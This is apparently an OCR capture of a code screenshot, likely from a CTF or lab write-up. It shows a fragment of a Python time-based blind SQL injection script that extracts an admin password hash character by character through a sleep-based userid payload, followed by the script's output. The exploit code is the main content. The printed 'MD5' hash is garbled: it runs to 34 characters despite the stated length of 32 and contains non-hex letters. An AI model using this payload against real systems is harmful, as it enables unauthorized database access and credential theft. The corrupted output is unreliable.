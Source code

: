 ```python
                params={
                    "userid": "aaaa' or if(ascii(substr(password,{},1))={},sleep(3),false)#".format(i, j),
                    "password": "test"
                }
            )
        end = time.time()
        if end - start >= 1.5: 
            password += chr(j) 
            print(password)

print("Admin MD5 Password:", password) 
```     

```
Length of Password: 32
e
ed
edg
edge
edge6
edge6b
edge6b5
edge6b50
edge6b50S
edge6b50Se
edge6b50Se7
edge6b50Se7b
edge6b50Se7b5
edge6b50Se7b58
edge6b50Se7b582
edge6b50Se7b5826
edge6b50Se7b5826f
edge6b50Se7b5826fe
edge6b50Se7b5826fe4
edge6b50Se7b5826fe48
edge6b50Se7b5826fe48f
edge6b50Se7b5826fe48fc
edge6b50Se7b5826fe48fc1
edge6b50Se7b5826fe48fc1f
edge6b50Se7b5826fe48fc1f0
edge6b50Se7b5826fe48fc1f0f
edge6b50Se7b5826fe48fc1f0fe
edge6b50Se7b5826fe48fc1f0fe7
edge6b50Se7b5826fe48fc1f0fe77
edge6b50Se7b5826fe48fc1f0fe772
edge6b50Se7b5826fe48fc1f0fe772c
edge6b50Se7b5826fe48fc1f0fe772c4
edge6b50Se7b5826fe48fc1f0fe772c48
edge6b50Se7b5826fe48fc1f0fe772c48f
Admin MD5 Password: edge6b50Se7b5826fe48fc1f0fe772c48f
```

